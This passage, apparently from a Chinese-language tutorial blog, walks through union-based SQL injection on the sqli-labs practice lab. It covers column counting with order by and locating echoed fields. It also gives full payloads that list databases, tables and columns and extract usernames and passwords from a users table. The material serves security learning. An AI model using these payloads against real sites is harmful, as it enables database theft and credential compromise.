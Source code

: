 经过以上测试，可以确定页面的确存在`SQL`注入漏洞  
  
接下来就是要通过`order by`函数来确认数据的列数。  
  
```mysql  
http://127.0.0.1/sqli-labs-master/Less-1/?id=1'  order by 3--+
```  
  
在上面的测试语句中，`--+`是注释语句，将后面的引号注释掉，使得页面不会进行报错。另外，对列数的试探也是有技巧的，如果一个一个数往上递增，碰到列数很多的数据，花费的时间和精力是无可估量的。算法上我们也学过二分法，我们可以按照这种思路去试。举个例子，我们可以先假设一个列数12，当`order by 12`报错的时候，证明实际列数比12小，这个时候我们可以试6，显而易见6也会报错，以此类推便试3，3没有报错，可以得出列数为`3-5`之间，于是试4，4报错，所以正确的列数是3。    
  
列数知道之后，我们要使用`select`语句去查看页面的回显  
  
```mysql  
http://127.0.0.1/sqli-labs-master/Less-1/?id=' union select 1,2,3--+  
```  
  
`select 1,2,3`就是构造出跟原数据列数相同的一行，而且此时id值设为空的目的是让`union`前面的语句不回显，这样就是看到`1,2,3`这三个数字究竟在页面中哪个位置显示，在进行进一步的操作时，只要将具体的语句替换掉数字，就可以进行完整的`SQL`注入了。    
  
我们来看看页面的回显  
  
<img src="https://img-blog.csdnimg.cn/20200805113228926.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2dlZWtib3lfMTIz,size_16,color_FFFFFF,t_70">  
  
这里我们可以看出，`2`和`3`显示在了页面上，所以接下来的注入语句就可以在`2`和`3`处替换  
  
还记的我们刚刚提到的查询数据库的核心语法吗？只要将这些语句替换到你想要显示的位置就可以完成一次`SQL`注入，还有一个值得注意的点是，因为数据库对回显有限制，所以在必要时要善用`group_concat`等语法完成一次性的回显。  
  
我们还是按照读取数据库的一般步骤一步步来，先读取一下`MySQL`中所有数据库名：  
  
```mysql  
http://127.0.0.1/sqli-labs-master/Less-1/?id=' union select 1,2,(select group_concat(schema_name) from information_schema.schemata)--+
```    
  
回显页面如下：  

<img src="https://img-blog.csdnimg.cn/20200805114546979.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2dlZWtib3lfMTIz,size_16,color_FFFFFF,t_70">  
  
可见原本显示`3`的地方显示出了所有`Mysql`的数据库名  
  

以此类推，还可以进行表的读取，列的读取，最后再精细到数据表中数据的读取  
  
```
# 读取表,database()指的是当前数据库
  
http://127.0.0.1/sqli-labs-master/Less-1/?id=' union select 1,2,(select group_concat(table_name) from information_schema.tables where table_schema=database())--+  
  
# 列的读取，就以读取users数据表为例  
  
http://127.0.0.1/sqli-labs-master/Less-1/?id=' union select 1,2,(select group_concat(column_name) from information_schema.columns where table_name='users')--+  
  
# 数据的读取，读取users表中password和username两个字段  
  
http://127.0.0.1/sqli-labs-master/Less-1/?id=' union select 1,2,(select concat(username,0x7e,password) from users limit 1,1)--+  
  
# 可以利用limit一行一行进行读取
```  
  